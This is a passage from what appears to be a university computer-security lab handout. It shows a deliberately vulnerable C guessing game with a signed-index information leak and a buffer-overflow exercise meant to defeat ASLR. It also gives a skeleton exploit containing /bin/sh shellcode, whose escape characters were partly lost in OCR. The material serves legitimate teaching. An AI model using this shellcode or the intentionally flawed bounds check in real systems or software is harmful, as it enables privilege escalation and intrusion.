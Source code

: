 <pre>    /* Get 10 guesses. If they guess what is in the slot,     * print ’Correct!’. Otherwise, show them they were     * wrong.     */</pre>

<pre>    for (int i = 0; i &lt; GUESSES; i++)    {</pre>

<pre>        /* Get a slot */        fprintf(out, "Slot: ");        int idx = get_int(in);</pre>

<pre>        if (idx &lt; GUESSES)        {</pre>

<pre>            /* Get a guess, and check if correct */            fprintf(out, "Guess: ");            unsigned int guess = get_int(in);</pre>

<pre>            if (secret_buff[idx] == guess)                fprintf(out, "Correct!
");</pre>

<pre>            else                fprintf(out, "Wrong! The value was: %u
", secret_buff[idx]);</pre>

<pre>        /* Index out of bounds */        } else {</pre>

<pre>            fprintf(out, "[!] Error: Invalid Slot!
");</pre>

<pre>            exit(EXIT_FAILURE);        }</pre>

<pre>    }    update_records(in, out);</pre>

<pre>    printf("Returned properly: attack failed
");</pre>

<pre>    return EXIT_SUCCESS;}</pre>

Task 2’s program is a small game, which you must exploit with ASLR enabled. It makes an array of 10 random integers, then asks you to pick an integer in the list, and guess what it is. If your guess is correct it prints “Correct!”, and if wrong it tells you what the correct value was. The object here is not

CMSC 414: Computer and Network Security (Univ. of Maryland) 10

to win the game, but to get a root shell like in Task 1. To do this there are two vulnerabilities you must find and exploit.

Start by identifying where the buffer overflow is in the program, then find a second bug to help you defeat ASLR.

The task Your task is to implement another program, exploit2.c, that will interact with the above program, providing inputs as you see fit to get it to launch a root shell. You may use the following as a skeleton:

<pre>/* exploit2.c  *//* Interacts with vulnerable2.c for code injection. */</pre>

<pre>#include &lt;stdio.h&gt;#include &lt;string.h&gt;#include &lt;stdint.h&gt;#include &lt;stdlib.h&gt;</pre>

<pre>#define BUFF_SZ 512#define disable_buffering(_fd) setvbuf(_fd, NULL, _IONBF, 0)</pre>

<pre>char shellcode[]=  "x31xc0"  "x50"  "x68""//sh"  "x68""/bin"  "x89xe3"  "x50"</pre>

<pre>  "x53"  "x89xe1"  "x99"  "xb0x3b"  "x2cx30"  "xcdx80";</pre>

<pre>/* xorl/* pushl/* pushl/* pushl/* movl/* pushl/* pushl/* movl/* cdq/* movb/* sub/* int</pre>
